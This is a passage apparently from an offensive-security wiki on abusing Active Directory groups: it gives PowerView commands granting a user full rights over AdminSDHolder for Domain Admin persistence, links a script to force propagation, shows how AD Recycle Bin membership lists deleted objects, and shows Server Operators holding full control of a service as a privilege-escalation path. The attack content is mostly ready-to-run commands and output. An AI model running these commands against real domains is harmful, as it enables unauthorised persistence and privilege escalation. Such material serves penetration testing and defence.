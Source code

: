 Add a user to the **AdminSDHolder** group:

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```

Check if the user is inside the **Domain Admins** group:

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

If you don't want to wait an hour you can use a PS script to make the restore happen instantly: [https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)

[**More information in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

## **AD Recycle Bin**

This group gives you permission to read deleted AD object. Something juicy information can be found in there:

```bash
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

### Domain Controller Access

Note how we cannot access files on the DC with current membership:

![](../../.gitbook/assets/a4.png)

However, if the user belongs to `Server Operators`:

![](../../.gitbook/assets/a5.png)

The story changes:

![](../../.gitbook/assets/a6.png)

### Privesc <a href="#backup-operators" id="backup-operators"></a>

Use [`PsService`](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) or `sc`, form Sysinternals, to check permissions on a service.

```
C:\> .\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

[...]

        [ALLOW] BUILTIN\Server Operators
                All
```
